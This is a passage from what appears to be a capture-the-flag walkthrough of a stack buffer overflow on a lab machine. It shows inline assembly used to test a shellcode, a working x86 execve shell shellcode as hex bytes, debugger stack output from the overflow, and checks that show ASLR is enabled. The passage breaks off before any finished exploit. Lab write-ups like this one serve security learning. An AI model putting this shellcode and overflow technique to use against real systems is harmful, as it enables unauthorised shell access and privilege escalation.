 ``` 

	__asm__ ("movl $0xffffffff, %eax\n\t"
		 "movl %eax, %ebx\n\t"
		 "movl %eax, %ecx\n\t"
		 "movl %eax, %edx\n\t"
		 "movl %eax, %esi\n\t"
		 "movl %eax, %edi\n\t"
		 "movl %eax, %ebp\n\t"

		 // Calling the shellcode
		 "call shellcode");

}
```

Ok, the shellcode is <code>\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80</code>. Next we need the address of ESP, so we know where to store our shellcode. Then we can have a full payload, where we point EIP to the contents of ESP, and the shellcode gets executed.

``` 
gdb-peda$ context stack

[------------------------------------stack-------------------------------------]
0000| 0xbffff640 ("CCCC")
0004| 0xbffff644 --> 0xbffff600 ('A' <repeats 60 times>, "BBBBCCCC")
0008| 0xbffff648 --> 0xbffff6e0 --> 0xbffff8c1 ("XDG_SESSION_ID=1")
0012| 0xbffff64c --> 0xb7feccea (<call_init+26>:	add    ebx,0x12316)
0016| 0xbffff650 --> 0x2 
0020| 0xbffff654 --> 0xbffff6d4 --> 0xbffff803 ("/tmp/file")
0024| 0xbffff658 --> 0xbffff674 --> 0x658f7063 
0028| 0xbffff65c --> 0x804974c --> 0xb7e2f990 (<__libc_start_main>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```

So ESP is located at 0xbffff640. Or so I thought..when I ran my payload, I got another segfault and the address of ESP was different. I didn't expect something like ASLR to be enabled, but when I checked, it actually is:

``` 
cat /proc/sys/kernel/randomize_va_space
2
```

I checked with *ldd*:

``` 
smeagol@LordOfTheRoot:/tmp$ ldd file 
	linux-gate.so.1 =>  (0xb773d000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7576000)
	/lib/ld-linux.so.2 (0xb773f000)
smeagol@LordOfTheRoot:/tmp$ ldd file 
	linux-gate.so.1 =>  (0xb770c000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7545000)
	/lib/ld-linux.so.2 (0xb770e000)
```
